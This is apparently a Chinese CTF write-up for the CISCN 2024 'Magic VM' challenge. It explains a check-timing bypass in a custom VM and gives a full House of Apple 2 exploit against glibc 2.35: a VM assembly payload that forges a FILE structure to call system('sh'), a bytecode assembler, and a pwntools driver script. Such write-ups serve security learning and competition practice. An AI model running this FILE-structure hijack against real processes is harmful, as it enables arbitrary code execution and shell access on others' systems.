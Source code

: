```yaml
---
title: ciscn2024 - Magic VM 
date: 2024/5/21 00:48:00
tags:
    - vm
    - House of Apple 2
    - libc2.35
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.7|

## 解题思路

没去符号表的vm题，费了好大劲在黑灯开始时想通了怎么利用，然后来不及了

> 我在[这里](./MagicVMPsrc)会放逆好的伪代码，看起来清晰多了

这道题的漏洞在于绕过时序，从代码读入到实际写入，实际上需要3个周期，
而所有合法性检查是在`vm_id::run`中做的，那意味着，我们只要使数据变化慢于检测，
即可绕过，具体原理如图所示

![bypass](/assets/ciscn2024/magicvm.png)

理解完了这个原理之后，思路就很清楚了：先获取libc和mmap的地址，然后在data段伪造FILE，
设置好apple的触发条件，最后把伪造的FILE挂到`_IO_list_all`下，等程序自然退出就可以拿shell

为了自动化生成这长长的脚本，我写了对应的汇编和汇编器附在文后

## Extra Bonus

1. 我们拿到的mmap段紧邻另一段，而在里面有libc，有自身所在的地址，这不是巧合，它是TLS段
2. `cout <<`也有"hook"可用，在这个libstdc++中，在执行输出时，会解析函数，即导入函数到got表中，
那么由于它没有开Full RELRO，所以我们还可以写got表来跳转任意代码，但前提是我们能拿到libstdc++的地址
3. 由于延迟赋值的特性（见上图），所以在`mov reg, imm`和`mov ds:[reg], reg`这样的语句中间必须有一个等待周期，
可以`nop`，或者先处理其他寄存器


## EXPLOIT

```asm
; exp.asm
inline:
    mov r0, 0x46e8
    mov r1, 0x4740
    mov r0, ds:[r0]             ; main_arena
    mov r1, ds:[r1]             ; my_vm.data + 0x0x4740
    sub r0, 0x21ac80            ; libc_base
    sub r1, 0x4740              ; my_vm.data

    mov r2, 0x0
    mov r3, 0x28
    mov ds:[r2], 0x3b68732020   ; data->_flags = '  sh;'
    mov ds:[r3], 0x1            ; data->_IO_write_ptr = 1

    mov r2, 0xa0
    mov r3, 0xe0
    mov ds:[r2], r1             ; data->_wide_data = data
    mov ds:[r3], r1             ; data->_wide_vtable = data

    mov r2, r0
    mov r3, 0x68
    add r2, 0x50d70
    nop
    mov ds:[r3], r2             ; data->doallocate = system

    mov r2, r0
    mov r3, 0xd8
    add r2, 0x2170c0
    nop
    mov ds:[r3], r2             ; data->_vtable = _IO_wfile_jumps

    add r0, 0x21b680            ; r0 = _IO_list_all
    nop
    sub r0, r1
    mov r2, 0x0
    mov r2, r0
    nop
    mov ds:[r2], r1             ; *_IO_list_all = data
    nop
    nop
```

```python
# assembler.py
from pwn import *
import re
def assemble(lines:list[str]) -> bytes:
    payload = b''
    pre = ' *'
    post = r'(?: *;.*)?'
    def wrap_match(restr:str, line:str) -> re.Match:
        return re.match(f'{pre}{restr}{post}', line)

    for i, line in enumerate(lines):
        if match := wrap_match(r'mov r(\d), (0x[0-9a-f]+)', line):
            # mov reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'mov r(\d), ds:\[r(\d)\]', line):
            # mov reg, ds
            reg = int(match.group(1))
            ds = int(match.group(2))
            payload += b'\x05\x0e' + p8(reg) + p8(ds)
        elif match := wrap_match(r'mov ds:\[r(\d)\], (0x[0-9a-f]+)', line):
            # mov ds, imm
            ds = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x07' + p8(ds) + p64(imm)
        elif match := wrap_match(r'mov ds:\[r(\d)\], r(\d)', line):
            # mov ds, reg
            ds = int(match.group(1))
            reg = int(match.group(2))
            payload += b'\x05\x0b' + p8(ds) + p8(reg)
        elif match := wrap_match(r'mov r(\d), r(\d)', line):
            # mov reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x05\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), r(\d)', line):
            # sub reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x02\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x02\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'add r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x01\x06' + p8(reg) + p64(imm)
        elif match := wrap_match('nop', line):
            # nop
            payload += b'\x0b'
        else:
            debug(f'\'{line.strip()}\' @L#{i + 1} can not match')
    debug(f'generating payload {payload}')
    return payload

if __name__ == '__main__':
    import sys
    if len(sys.argv) < 2:
        print('Require file name!')
        exit(0)
    filename = sys.argv[1]
    with open(filename, 'r') as file:
        bytecode = assemble(file.readlines())
        print(bytecode)
```

```python
# vm.py
from pwn import *
from assembler import assemble
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vm'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1c84)\nc')
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)

    with open('exp.asm', 'r') as file:
        bytecode = assemble(file.readlines())
    sh.send(bytecode)

    sh.clean()
    sh.interactive()
```
